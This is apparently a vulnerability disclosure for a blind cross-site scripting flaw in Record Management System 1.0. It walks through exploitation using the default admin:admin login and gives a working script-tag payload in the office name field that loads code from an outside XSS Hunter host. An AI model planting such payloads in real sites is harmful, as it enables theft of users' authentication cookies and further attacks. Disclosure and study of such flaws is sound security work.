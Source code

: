 # Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Exploit Title:** Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ CVE: CVE-

## References: 

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'officename' in "/recordmanagement/main/offices.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with admin:admin
+ Go to the Offices: "http://localhost/recordmanagement/main/offices.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Office and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.
![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/1a7010d1-375b-4057-887c-f5b77d7b7fc8)
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/8ef95f72-c0e4-4dfe-9888-019f74f761a2)
![3-3](https://github.com/h4md153v63n/CVEs/assets/5091265/b83ac262-e5b3-4767-931d-06c5baf08efe)
![3-4](https://github.com/h4md153v63n/CVEs/assets/5091265/92faa150-3a3c-47c1-a053-033cd70782b6)
![3-5](https://github.com/h4md153v63n/CVEs/assets/5091265/0546b16c-44bf-461a-afb0-b128ccde253c)
![3-6](https://github.com/h4md153v63n/CVEs/assets/5091265/5110ae7e-b43d-4a1a-a962-84f5c32d6999)
